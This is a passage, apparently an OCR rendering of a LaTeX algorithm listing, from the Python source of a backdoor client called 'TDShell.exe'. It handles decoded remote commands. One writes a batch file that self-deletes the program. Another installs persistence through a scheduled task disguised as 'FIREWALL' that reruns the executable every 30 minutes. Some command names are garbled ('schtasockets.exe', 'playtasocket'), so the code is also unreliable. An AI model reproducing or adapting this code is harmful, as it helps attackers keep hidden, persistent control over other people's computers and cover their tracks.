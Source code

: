 \begin{breakablealgorithm}
\begin{algorithmic}[1]
\qquad except:\\
\qquad \quad sys.exit()\\
\qquad else:\\
\qquad \quad $response$=base64.b64decode(binascii.a2b\_hex(response.strip()))\\
\qquad \quad try:\\
\qquad \qquad if\quad $response$=='exit':  \qquad \#退出当前连接\\
\qquad \qquad \quad sys.exit()\\
\qquad \qquad if\quad $response$=='kill':  \qquad \#退出当前连接并自毁程序\\
\qquad \qquad \quad try:\\
\qquad \qquad \qquad $f$=open('kill.bat','w')\\
\qquad \qquad \qquad f.write('ping -n 2 127.0.0.1 >nul $\backslash$ndel /F TDShell.exe $\backslash$ndel /F kill.bat')\\
\qquad \qquad \qquad f.close()\\
\qquad \qquad \qquad threading.Thread(target=self.kill).start()\\
\qquad \qquad \qquad time.sleep(0.5)\\
\qquad \qquad \qquad threading.Thread(target=self.exits).start()\\
\qquad \qquad \quad except:\\
\qquad \qquad \qquad pass\\
\qquad \qquad if\quad $response$=='playtasocket':        \qquad \#给自己创建计划任务。\\
\qquad \qquad \quad try:\\
\qquad \qquad \qquad $path$=os.getcwd()\\
\qquad \qquad \qquad $name$=os.popen('whoami').read().split('$\backslash$ $\backslash$')[1].replace('$\backslash$n','')  \qquad \#获取当前用户名称\\
\qquad \qquad \qquad $command$='schtasockets.exe  /Create /RU '+'"'+name+'"'+' /SC MINUTE /MO 30 /TN FIREWALL /TR '+'"'+path+'$\backslash$TDShell.exe'+'"'+' /ED 2018/12/12' \qquad \#可执行文件一定要写绝对路径\\
\qquad \qquad \qquad $self.contents$=os.popen(command).read()\\
\qquad \qquad \quad except:\\
\qquad \qquad \qquad pass\\
\qquad \qquad else:\\
\qquad \qquad \quad i='-p'\\
\qquad \qquad \quad if \quad $i$\quad  in response:\\

\end{algorithmic}
\end{breakablealgorithm}
